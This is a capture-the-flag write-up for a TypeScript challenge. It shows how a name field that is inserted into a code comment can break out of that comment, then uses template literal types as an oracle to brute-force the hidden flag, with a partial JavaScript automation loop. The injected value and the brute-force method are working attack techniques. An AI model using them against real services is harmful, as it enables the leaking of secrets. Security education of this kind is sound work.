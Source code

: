 ### Challenge
Name: typescrip
Category: misc
Difficulty: medium

### Solution
Run `node index.js` and wait for the flag brute force to complete

### Explanation
Type check the characters of the flag until you have received the entire flag text. We can actually encapsulate the flag in a string by abusing the 
Brute force with name `*/ let a: CTF=`` and code
```
`;type CTF =`${string}bctf{'+a+'${string}}${string}`

```
The server is doing this substitution
```typescript
`/* TYPE CHECKED FOR ${name} ON ${today}. THE FLAG IS "${flag}". */` + "\n\n" + code;
```
Our injection ends up with this source code
```typescript
/* TYPE CHECKED FOR */ let a: CTF=` ON 10/1/2023. THE FLAG IS "bctf{fake_flag}". */
`;type CTF =`${string}bctf{${string}}${string}`
```
Here we can use `${string}` templating to check for any string, bctf{} containing any string, followed by any string.
We can get more and more specific with this injection. For example:
```typescript
/* TYPE CHECKED FOR */ let a: CTF=` ON 10/1/2023. THE FLAG IS "bctf{fake_flag}". */
`;type CTF =`${string}bctf{a${string}}${string}`
```
Will throw an error, but:
```typescript
/* TYPE CHECKED FOR */ let a: CTF=` ON 10/1/2023. THE FLAG IS "bctf{fake_flag}". */
`;type CTF =`${string}bctf{4${string}}${string}`
```
Will be successful, meaning we can derive the first character. For the brute force, we automate the client connection and check for successes and failures:
```javascript
let current = "";
function tryConnectionWithChar(a){/* ... source code ...*/} // updates current if successful
let alpha = "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+=-[]{};".split("");
let i = 0;
let length = 0;
setInterval(function(){
    console.log(current+alpha[i]);
    tryConnectionWithChar(current+alpha[i]);
    i++;
    if(current.length > length){ // current was updated with a correct character, start from beginning
        i = 0;
        length = current.length;
    }
    if(i==alpha.length){ // sometimes the request with the correct character gets rejected, just try again
        i=0;
    }
},200);
```